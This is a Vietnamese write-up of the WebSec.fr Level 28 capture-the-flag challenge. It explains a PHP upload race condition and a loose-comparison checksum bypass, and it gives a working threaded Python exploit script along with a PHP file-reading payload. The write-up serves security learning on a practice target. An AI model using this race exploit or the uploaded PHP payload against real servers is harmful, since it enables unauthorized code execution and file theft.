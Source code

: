 ```yaml
---
title: WebSec.fr Level 28 CTF challenge

---
```


# WebSec.fr Level 28 CTF challenge

### Tổng quan:

![image](https://hackmd.io/_uploads/Syc1KLLjxl.png)

```php
<?php
if(isset($_POST['submit'])) {
  if ($_FILES['flag_file']['size'] > 4096) {
    die('Your file is too heavy.');
  }
  $filename = './tmp/' . md5($_SERVER['REMOTE_ADDR']) . '.php';

  $fp = fopen($_FILES['flag_file']['tmp_name'], 'r');
  $flagfilecontent = fread($fp, filesize($_FILES['flag_file']['tmp_name']));
  @fclose($fp);

    file_put_contents($filename, $flagfilecontent);
  if (md5_file($filename) === md5_file('flag.php') && $_POST['checksum'] == crc32($_POST['checksum'])) {
    include($filename);  // it contains the `$flag` variable
    } else {
        $flag = "Nope, $filename is not the right file, sorry.";
        sleep(1);  // Deter bruteforce
    }

  unlink($filename);
}
?>

```

Đoạn mã này là một trang web đơn giản cho phép người dùng tải lên một tệp và nhập một giá trị checksum. Mục tiêu là tải lên một tệp tin sao cho hai điều kiện sau được thỏa mãn:

- `md5_file($filename) === md5_file('flag.php')`

- `POST['checksum'] == crc32($_POST['checksum'])`

Nếu cả hai điều kiện này đều đúng, tệp tin được tải lên sẽ được include, và vì tệp tin đó có thể chứa mã độc, chúng ta có thể thực thi nó để lấy flag.

### Tiến hành khai thác

Ở đây ta sẽ thử sử dụng chức năng với 1 file php với nội dung:

```php
// show_flag.php
<?php
// Read the contents of the "flag.php" file
$flag_content = file_get_contents("/flag.php");

// Display the contents of the file
echo $flag_content;

?>
```

Để xem thử nó có ra flag hay không.

![image](https://hackmd.io/_uploads/Hy2l9LLjeg.png)

Kết quả trả về cho ta chỉ nhận được dòng `Nope, ./tmp/06e2d538fba99ca2b2456260bc9e08f5.php is not the right file, sorry.`
Ở đoạn `/tmp/06e2d538fba99ca2b2456260bc9e08f5.php` liệu ta có thể khai thác gì thêm từ thông tin này không?

Trong code có đoạn:

```php
$filename = './tmp/' . md5($_SERVER['REMOTE_ADDR']) . '.php';
```

Ở đây giá trị `$filename` sau khi upload lên sẽ được đưa vào thư mục tạm là `/tmp` sau đó là đi với public ip của máy mình và rồi là đuôi file php, vậy nên có thể nhận thấy đây là file cố định với ip của mình và cho dù mình upload bất kì file nào lên thì nó sẽ đều đi vào `/tmp/06e2d538fba99ca2b2456260bc9e08f5.php` trước.

Ngoài ra trong source còn có đoạn:

```php
else {
        $flag = "Nope, $filename is not the right file, sorry.";
        sleep(1);  // Deter bruteforce
    }

  unlink($filename);
}
```

Có nghĩa là khi đẩy lên tmp nếu file sau khi check không trùng với md5 và crc32 checksum thì nó sẽ có 1 khoảng thời gian là 1 giây trước khi nó xoá đi file đó và với 1s thì đó là khoảng thời gian khá dài.

Bây giờ có 2 hướng đi đó là bypass được md5 và crc32 check và hướng race condition lợi dụng 1 giây đó. Với hướng đi đầu thì có vẻ bất khả thi vì ta sẽ khó để có thể biết được md5 của flag được giấu là gì cùng với đó là rất khó để tìm được số x sao cho `x == crc32(str(x))` vì : 

```text
- crc32 trả ra giá trị 32-bit (từ 0 đến 2³²−1 ≈ 4.29 tỉ).

- Nếu coi hàm f(x) = crc32(str(x)) như một ánh xạ trên không gian 2³² phần tử, thì xác suất bất kỳ x cụ thể thỏa f(x)=x vào khoảng 1/2³².

- Nghĩa là trung bình bạn cần thử ~2³² lần (khoảng 4.29 tỉ) mới mong tìm được một nghiệm — không khả thi bằng dò ngẫu nhiên trên 1 máy.
```

Vậy nên ta sẽ dùng trick là so sánh crc32 với chuỗi rỗng:

```text
- crc32('') trả về integer 0.

- '' (chuỗi rỗng) khi ép kiểu sang số cũng trở thành 0.

- PHP dùng so sánh lỏng == sẽ ép kiểu nếu cần, vậy '' == crc32('') tức là '' == 0 → true.

- Nhưng '' === crc32('') (so sánh kiểu chặt ===) sẽ false vì kiểu khác (string vs int).

- Vì vậy gửi checksum là chuỗi rỗng (checksum=) sẽ thỏa điều kiện $_POST['checksum'] == crc32($_POST['checksum'])
```

Vậy nên bây giờ ta chỉ có cách là lợi dụng trong khoảng thời gian 1 giây đó thực hiện request `POST` file php lên và thực hiện `GET` luôn giá trị của flag trong đó.

Bây giờ sử dụng script để khai thác:

```python
# followup_attack.py
import threading, requests, time, random

POST_URL = 'https://websec.fr/level28/index.php'
# replace md5ip with your IP-hash (or compute from your remote IP)
TMP_URL = 'https://websec.fr/level28/tmp/06e2d538fba99ca2b2456260bc9e08f5.php'
FILE_PATH = 'show_flag.php'

NUM_UPLOADERS = 6    # start small (increase slowly if server tolerates)
NUM_READERS = 3
SLEEP_UPLOAD = 0.06  # tune small, don't saturate
SLEEP_READ = 0.02

USER_AGENTS = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
    "curl/7.79.1",
    "python-requests/2.x"
]

def uploader(i):
    s = requests.Session()
    s.headers.update({'User-Agent': random.choice(USER_AGENTS)})
    data = {'checksum': '', 'submit': 'Upload and check'}  # empty checksum bypass
    while True:
        try:
            # open fresh every request
            with open(FILE_PATH, 'rb') as fh:
                files = {'flag_file': (FILE_PATH, fh, 'application/octet-stream')}
                r = s.post(POST_URL, files=files, data=data, timeout=8)
            # optionally log low-volume feedback
            if r.status_code != 200:
                print(f"[U{i}] status {r.status_code}")
        except Exception as e:
            print(f"[U{i}] upload err: {e}")
        time.sleep(SLEEP_UPLOAD + random.random()*0.02)

def reader(i, stop_event):
    s = requests.Session()
    s.headers.update({'User-Agent': random.choice(USER_AGENTS)})
    while not stop_event.is_set():
        try:
            r = s.get(TMP_URL, timeout=6)
            if r.status_code == 200:
                txt = r.text
                # quick check for flag pattern
                if 'FLAG{' in txt or 'WEBSEC{' in txt:
                    print(f"[R{i}] !!! FLAG FOUND !!!\n{txt}")
                    stop_event.set()
                    return
                # debug: when file is not PHP anymore (indicates something changed)
                if "<?php" not in txt:
                    print(f"[R{i}] changed content (snippet): {repr(txt[:200])}")
            else:
                # minor backoff on non-200 to avoid making things worse
                time.sleep(0.05)
        except Exception as e:
            print(f"[R{i}] read err: {e}")
        time.sleep(SLEEP_READ + random.random()*0.005)

if __name__ == "__main__":
    stop_event = threading.Event()
    threads = []
    for i in range(NUM_UPLOADERS):
        t = threading.Thread(target=uploader, args=(i,), daemon=True)
        t.start()
        threads.append(t)
    for i in range(NUM_READERS):
        t = threading.Thread(target=reader, args=(i, stop_event), daemon=True)
        t.start()
        threads.append(t)

    try:
        while not stop_event.is_set():
            time.sleep(0.5)
    except KeyboardInterrupt:
        print("Stopped by user")

```

File php với mục đích hiển thị nội dung file flag được giấu ở bên trong hệ thống.

```php
// show_flag.php
<?php
// Read the contents of the "flag.php" file
$flag_content = file_get_contents("/flag.php");

// Display the contents of the file
echo $flag_content;

?>
```

![image](https://hackmd.io/_uploads/B1AYWPLsee.png)

Thành công lấy được nội dung flag ở bên trong bằng cách POST và GET nhanh trong vòng 1 giây ở đây dùng threads của python sẽ giúp tốc độ nhanh hơn.